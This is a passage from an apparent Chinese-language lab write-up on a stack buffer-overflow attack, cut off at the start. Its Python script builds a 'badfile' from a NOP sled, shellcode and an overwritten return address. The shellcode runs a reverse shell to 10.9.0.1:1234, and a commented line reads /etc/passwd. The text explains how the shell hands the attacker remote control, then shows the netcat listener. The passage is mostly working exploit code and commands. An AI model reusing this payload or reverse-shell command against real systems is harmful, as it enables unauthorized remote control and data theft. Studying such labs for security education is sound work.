 ```python
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   #"/bin/ls -l; echo Hello 32; /bin/tail -n 2 /etc/passwd     *"
   "/bin/bash -i > /dev/tcp/10.9.0.1/1234 0<&1 2>&1            "
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffd0b8 + 8     # Change this number 
offset = 116              # Change this number  

# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)

```

效果：

![image-20251002234402213](https://raw.githubusercontent.com/Aur0r3-zy/picture/main/img/20251008210246530.png)

![image-20251002234411293](https://raw.githubusercontent.com/Aur0r3-zy/picture/main/img/20251008210246531.png)

其中shellcode中的命令：

```shell
/bin/bash -i > /dev/tcp/10.9.0.1/1234 0<&1 2>&1
```

含义是启动交互式shell，将输出重定向到`/dev/tcp/10.9.0.1/1234`文件中，将标准输入和标准错误重定向到标准输出的同一个位置。该命令会主动连接到攻击者控制的服务器（10.9.0.1的1234端口），然后将当前shell的标准输入、标准输出和标准错误全部通过这个TCP连接传输，从而让攻击者能够远程控制受害主机。

执行并使用nc监听，即可成功连接：

```shell
nc -lvnp 1234
```
